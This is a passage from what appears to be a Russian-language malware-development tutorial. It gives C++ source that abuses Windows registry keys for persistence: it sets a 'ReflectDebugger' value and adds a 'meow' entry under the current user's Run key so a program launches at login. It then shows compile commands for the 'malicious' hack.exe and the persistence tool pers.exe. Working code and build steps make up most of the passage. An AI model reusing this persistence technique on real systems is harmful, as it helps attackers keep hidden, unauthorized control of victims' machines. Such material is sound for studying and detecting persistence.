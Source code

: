 ```cpp
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
    strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наше "вредоносное" приложение:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-54.png){width="80%"}    

И скрипт закрепления:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/78/2022-11-02_04-55.png){width="80%"}    
